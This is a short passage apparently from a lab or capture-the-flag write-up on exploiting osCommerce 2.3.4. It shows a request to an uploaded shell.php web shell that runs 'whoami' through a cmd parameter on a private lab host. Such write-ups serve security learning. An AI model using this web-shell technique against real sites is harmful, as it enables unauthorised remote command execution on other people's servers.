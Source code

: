 now we've successfully downloaded the shell.php file to the server let's inject command to confirm if tit gives us a web shell 
![image](/posts/res/BP10.png) 
command used: 
```
http://10.10.113.71:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=whoami
```
